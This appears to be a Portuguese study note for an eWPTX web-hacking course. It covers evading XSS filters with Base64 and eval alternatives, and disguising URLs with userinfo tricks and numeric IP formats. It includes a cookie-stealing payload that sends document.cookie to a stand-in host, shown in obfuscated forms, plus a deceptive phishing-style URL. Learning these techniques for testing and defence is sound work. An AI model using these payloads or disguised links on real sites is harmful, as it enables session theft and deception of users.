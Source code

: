 #INE #WebHacking #eWPTX 
# Base64 Encoding Evasion

A maioria dos sistemas de detecção utilizam o regex para encontrar palavras maliciosas. Imaginando que quero evadir de um sistema que procura pelas palavras: eval, alert, prompt, document.cookie

Normalmente se usa:
```JavaScript
location.href = 'http://evilpath.com/?c='+escape(document.cookie)
```

Ele não vai funcionar por causa do "document.cookie", uma alternativa seria:
```JavaScript
eval(atob("bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=""))
```

Para esse exemplo também não vai funcionar por causa do "eval", outra possibilidade seria:
```JavaScript
[].constructor.constructor(atob("bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=""))()
```

Outros métodos válidos:
```JavaScript
setTimeout("code")    # Todos os navegadores
setInterval("code")   # Todos os navegadores
setImmediate("code")  # IE 10+
Function("code")()    # Todos os navegadores
```
# URI Obfuscation Techiques

Utilizado principalmente para engenharia social, mas também pode ser usado em alguma situação que seja necessário ocultar a url, dar bypass em algum sistema ou diminuir o tamanho do payload
## URL Shortening

Utilizado para encurtar a url, pode-se usar soluções prontas ou criar a sua própria solução

https://yourls.org/  -> Solução Open Source
https://bitly.com/   -> Solução paga

*colocando um '+' ao fim da url encurtada pelo bitly, é possível descobrir mais informações sobre o verdadeiro link*

Outra forma de descobrir o link verdadeiro é realizando um cURL e analisando o header "Location" na resposta
## URL Hostname Obfuscation

Referência para estudo \[RFC 3986]: https://datatracker.ietf.org/doc/html/rfc3986#page-16
### URL Authority Obfuscation

**Obfuscating with Userinfo**

Estrutura da URI segundo a rfc:
```
foo://example.com:8042/over/there?name=ferret#nose
\_/ \________________/\_________/ \_________/ \__/
 |           |             |           |       |
scheme   authority        path       query  fragment
```

O componente Authority pode ter a seguinte estrutura:
```
[ userinfo "@" ] host [ ":" port ]
```

O campo "userinfo" é usado para autenticação em aplicações, seguindo esse exemplo:
```
http://user:pass@o-site-para-autenticar.com.br
```

Quando o site não possui autenticação esse campo é ignorado. Isso permite usar esse campo para ofuscar informações, criando urls como a seguinte:
```
http://www.google.com@hack.me/xss
```

É possível usar caracteres unicode para deixar a url ainda mais convincente

![[Pasted image 20231226160208.png]]

*Navegadores como o Firefox e o Opera, avisam o usuário final do redirecionamento. Já o Chrome não avisa nada*

**Obfuscating with Host**

Um site pode ser acessado tanto por seu endereço DNS como por seu endereço IP, e esse endereço IP pode estar em diferentes formatos, como por exemplo, Dword, Hexadecimal, Octal

Como exemplo, o Google pode ser acessado usando os seguintes endereços:
```
http://google.com
http://216.58.215.78           # IP
http://3627734862              # DWORD
http://0330.0072.0327.0116     # OCTAL
http://0xd83ad74e              # HEXADECIMAL
http://0xd8.0x3a.0xd7.0x4e     # HEXADECIMAL (separado por número)
```

Também é possível criar um endereço híbrido, mesclando dois ou mais formatos

Ferramenta para ajudar na conversão de formatos:

https://www.silisoftware.com/tools/ipconverter.php

